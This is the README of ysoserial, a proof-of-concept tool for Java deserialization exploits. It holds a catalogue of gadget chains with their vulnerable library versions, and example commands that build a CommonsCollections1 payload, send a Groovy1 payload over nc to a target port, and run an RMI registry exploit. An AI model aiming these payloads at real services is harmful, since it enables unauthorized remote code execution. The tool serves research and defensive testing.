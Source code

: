 
# ysoserial

[![GitHub release](https://img.shields.io/github/downloads/frohoff/ysoserial/latest/total)](https://github.com/frohoff/ysoserial/releases/latest/download/ysoserial-all.jar)
[![Travis Build Status](https://api.travis-ci.com/frohoff/ysoserial.svg?branch=master)](https://travis-ci.com/frohoff/ysoserial)
[![Appveyor Build status](https://ci.appveyor.com/api/projects/status/a8tbk9blgr3yut4g/branch/master?svg=true)](https://ci.appveyor.com/project/frohoff/ysoserial/branch/master)

A proof-of-concept tool for generating payloads that exploit unsafe Java object deserialization.

![logo](ysoserial.png)

## Description

Originally released as part of AppSecCali 2015 Talk
["Marshalling Pickles: how deserializing objects will ruin your day"](
        https://frohoff.github.io/appseccali-marshalling-pickles/)
with gadget chains for Apache Commons Collections (3.x and 4.x), Spring Beans/Core (4.x), and Groovy (2.3.x).
Later updated to include additional gadget chains for
[JRE <= 1.7u21](https://gist.github.com/frohoff/24af7913611f8406eaf3) and several other libraries.

__ysoserial__ is a collection of utilities and property-oriented programming "gadget chains" discovered in common java
libraries that can, under the right conditions, exploit Java applications performing __unsafe deserialization__ of
objects. The main driver program takes a user-specified command and wraps it in the user-specified gadget chain, then
serializes these objects to stdout. When an application with the required gadgets on the classpath unsafely deserializes
this data, the chain will automatically be invoked and cause the command to be executed on the application host.

It should be noted that the vulnerability lies in the application performing unsafe deserialization and NOT in having
gadgets on the classpath.

## Disclaimer

This software has been created purely for the purposes of academic research and
for the development of effective defensive techniques, and is not intended to be
used to attack systems except where explicitly authorized. Project maintainers
are not responsible or liable for misuse of the software. Use responsibly.

## Usage

```shell
$  java -jar ysoserial.jar
Y SO SERIAL?
 Payload              Authors                                Dependencies                                                                                                                                                                                 
     -------              -------                                ------------                                                                                                                                                                                 
     AspectJWeaver        @Jang                                  aspectjweaver:1.9.2, commons-collections:3.2.2                                                                                                                                               
     Atomikos             @pwntester, @sciccone                  transactions-osgi:4.0.6, jta:1.1                                                                                                                                                             
     BeanShell1           @pwntester, @cschneider4711            bsh:2.0b5                                                                                                                                                                                    
     C3P0                 @mbechler                              c3p0:0.9.5.2, mchange-commons-java:0.2.11                                                                                                                                                    
     Ceylon               @kai_ullrich                           ceylon.language:1.3.3                                                                                                                                                                        
     Click1               @artsploit                             click-nodeps:2.3.0, javax.servlet-api:3.1.0                                                                                                                                                  
     Clojure              @JackOfMostTrades                      clojure:1.8.0                                                                                                                                                                                
     Clojure2             @JackOfMostTrades                      clojure:1.8.0                                                                                                                                                                                
     CommonsBeanutils1    @frohoff                               commons-beanutils:1.9.2, commons-collections:3.1, commons-logging:1.2                                                                                                                        
     CommonsBeanutils2    @k4n5ha0                               commons-beanutils:1.9.2                                                                                                                                                                      
     CommonsCollections1  @frohoff                               commons-collections:3.1                                                                                                                                                                      
     CommonsCollections2  @frohoff                               commons-collections4:4.0                                                                                                                                                                     
     CommonsCollections3  @frohoff                               commons-collections:3.1                                                                                                                                                                      
     CommonsCollections4  @frohoff                               commons-collections4:4.0                                                                                                                                                                     
     CommonsCollections5  @matthias_kaiser, @jasinner            commons-collections:3.1                                                                                                                                                                      
     CommonsCollections6  @matthias_kaiser                       commons-collections:3.1                                                                                                                                                                      
     CommonsCollections7  @scristalli, @hanyrax, @EdoardoVignati commons-collections:3.1                                                                                                                                                                      
     CommonsCollections8  @navalorenzo                           commons-collections4:4.0                                                                                                                                                                     
     CreateZeroFile       @JackOfMostTrades                      scala-library:2.12.6                                                                                                                                                                         
     FileUpload1          @mbechler                              commons-fileupload:1.3.1, commons-io:2.4                                                                                                                                                     
     Groovy1              @frohoff                               groovy:2.3.9                                                                                                                                                                                 
     Hibernate1           @mbechler                              hibernate-core:5.0.7.Final, aopalliance:1.0, jboss-logging:3.3.0.Final, javax.transaction-api:1.2                                                                                            
     Hibernate2           @mbechler                              hibernate-core:5.0.7.Final, aopalliance:1.0, jboss-logging:3.3.0.Final, javax.transaction-api:1.2                                                                                            
     JBossInterceptors1   @matthias_kaiser                       javassist:3.12.1.GA, jboss-interceptor-core:2.0.0.Final, cdi-api:1.0-SP1, javax.interceptor-api:3.1, jboss-interceptor-spi:2.0.0.Final, slf4j-api:1.7.21                                     
     JRMPClient           @mbechler                                                                                                                                                                                                                           
     JRMPListener         @mbechler                                                                                                                                                                                                                           
     JSON1                @mbechler                              json-lib:jar:jdk15:2.4, spring-aop:4.1.4.RELEASE, aopalliance:1.0, commons-logging:1.2, commons-lang:2.6, ezmorph:1.0.6, commons-beanutils:1.9.2, spring-core:4.1.4.RELEASE, commons-collections:3.1
     JavassistWeld1       @matthias_kaiser                       javassist:3.12.1.GA, weld-core:1.1.33.Final, cdi-api:1.0-SP1, javax.interceptor-api:3.1, jboss-interceptor-spi:2.0.0.Final, slf4j-api:1.7.21                                                 
     Jdk7u21              @frohoff                                                                                                                                                                                                                            
     Jython1              @pwntester, @cschneider4711            jython-standalone:2.5.2                                                                                                                                                                      
     Jython2              @pwntester, @cschneider4711, @ykoster  jython-standalone:2.5.2                                                                                                                                                                      
     MozillaRhino1        @matthias_kaiser                       js:1.7R2                                                                                                                                                                                     
     MozillaRhino2        @_tint0                                js:1.7R2                                                                                                                                                                                     
     Myfaces1             @mbechler                              myfaces-impl:2.2.9, myfaces-api:2.2.9, apache-el:8.0.27, javax.servlet-api:3.1.0                                                                                                             
     Myfaces2             @mbechler                              myfaces-impl:2.2.9, myfaces-api:2.2.9, apache-el:8.0.27, javax.servlet-api:3.1.0                                                                                                             
     ROME                 @mbechler                              rome:1.0                                                                                                                                                                                     
     Spring1              @frohoff                               spring-core:4.1.4.RELEASE, spring-beans:4.1.4.RELEASE                                                                                                                                        
     Spring2              @mbechler                              spring-core:4.1.4.RELEASE, spring-aop:4.1.4.RELEASE, aopalliance:1.0, commons-logging:1.2                                                                                                    
     SpringJta            @zerothoughts, @sciccone               spring-tx:5.1.7.RELEASE, spring-context:5.1.7.RELEASE, jta:1.1                                                                                                                               
     Ssrf                 @JackOfMostTrades                      scala-library:2.12.6                                                                                                                                                                         
     Struts2JasperReports @sciccone                              struts2-core:2.5.20, struts2-jasperreports-plugin:2.5.20                                                                                                                                     
     URLDNS               @gebl                                                                                                                                                                                                                               
     Vaadin1              @kai_ullrich                           vaadin-server:7.7.14, vaadin-shared:7.7.14                                                                                                                                                   
     Wicket1              @jacob-baines                          wicket-util:6.23.0, slf4j-api:1.6.4                                                                                                                                                          
     WildFly              @hugow                                 wildfly-connector:30.0.1.Final                 
```

## Examples

```shell
$ java -jar ysoserial.jar CommonsCollections1 calc.exe | xxd
0000000: aced 0005 7372 0032 7375 6e2e 7265 666c  ....sr.2sun.refl
0000010: 6563 742e 616e 6e6f 7461 7469 6f6e 2e41  ect.annotation.A
0000020: 6e6e 6f74 6174 696f 6e49 6e76 6f63 6174  nnotationInvocat
...
0000550: 7672 0012 6a61 7661 2e6c 616e 672e 4f76  vr..java.lang.Ov
0000560: 6572 7269 6465 0000 0000 0000 0000 0000  erride..........
0000570: 0078 7071 007e 003a                      .xpq.~.:

$ java -jar ysoserial.jar Groovy1 calc.exe > groovypayload.bin
$ nc 10.10.10.10 1099 < groovypayload.bin

$ java -cp ysoserial.jar ysoserial.exploit.RMIRegistryExploit myhost 1099 CommonsCollections1 calc.exe
```

## Installation

[![GitHub release](https://img.shields.io/github/downloads/frohoff/ysoserial/latest/total)](https://github.com/frohoff/ysoserial/releases/latest/download/ysoserial-all.jar)

Download the [latest release jar](https://github.com/frohoff/ysoserial/releases/latest/download/ysoserial-all.jar) from GitHub releases.

## Building

Requires Java 1.7+ and Maven 3.x+

```mvn clean package -DskipTests```

## Code Status

[![Build Status](https://travis-ci.org/frohoff/ysoserial.svg?branch=master)](https://travis-ci.org/frohoff/ysoserial)
[![Build status](https://ci.appveyor.com/api/projects/status/a8tbk9blgr3yut4g/branch/master?svg=true)](https://ci.appveyor.com/project/frohoff/ysoserial/branch/master)

## Contributing

1. Fork it
2. Create your feature branch (`git checkout -b my-new-feature`)
3. Commit your changes (`git commit -am 'Add some feature'`)
4. Push to the branch (`git push origin my-new-feature`)
5. Create new Pull Request

## See Also
* [Java-Deserialization-Cheat-Sheet](https://github.com/GrrrDog/Java-Deserialization-Cheat-Sheet): info on vulnerabilities, tools, blogs/write-ups, etc.
* [marshalsec](https://github.com/frohoff/marshalsec): similar project for various Java deserialization formats/libraries
* [ysoserial.net](https://github.com/pwntester/ysoserial.net): similar project for .NET deserialization
